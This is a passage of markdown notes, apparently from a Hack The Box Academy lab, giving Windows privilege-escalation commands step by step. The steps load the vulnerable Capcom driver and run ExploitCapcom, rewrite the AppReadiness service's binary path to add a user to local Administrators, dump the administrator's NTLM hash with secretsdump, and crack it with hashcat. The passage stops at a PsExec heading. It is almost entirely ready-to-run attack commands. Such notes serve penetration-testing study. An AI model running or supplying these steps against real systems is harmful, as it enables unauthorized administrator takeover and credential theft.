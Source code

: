 ```
cat drivers.txt | Select-String -pattern Capcom
```
## Used ExploitCapcom Tool to escalate privileges
```
.\ExploitCapcom.exe
```
## Automating the Steps with EoPLoadDriver.exe
```
EoPLoadDriver.exe System\CurrentControlSet\Capcom c:\Tools\Capcom.sys
```
## Used ExploitCapcom Tool to escalate privileges
```
.\ExploitCapcom.exe
```
# Server Operations Group
### Querying the AppReadiness Service
```
sc qc AppReadiness
```
### PsService.exe
```
PsService.exe security AppReadiness
```
This confirms that the Server Operators group has SERVICE_ALL_ACCESS access right, which gives us full control over this service.
### Check for local admins
```
net localgroup Administrators
```
### Modifying the Service Binary Path
```
sc config AppReadiness binPath= "cmd /c net localgroup Administrators server_adm /add"
```
### Starting the Service
```
sc start AppReadiness
```
### Confirming the Local Admin Group Membership
```
net localgroup Administrators
```
You should see server_adm added to the group this time
### Crackmap Exec 
```
crackmapexec smb 10.129.43.42 -u server_adm -p 'HTB_@cademy_stdnt!'
```
### Secretsdump to retrieve NTLM hashes
```
impacket-secretsdump server_adm@10.129.43.42 -just-dc-user administrator
```
Crack the Hash or PTH
### Hashcat
```
hashcat -m 1000 hashes.txt /usr/share/wordlists/rockyou.txt -o cracked.txt
```
### PSexec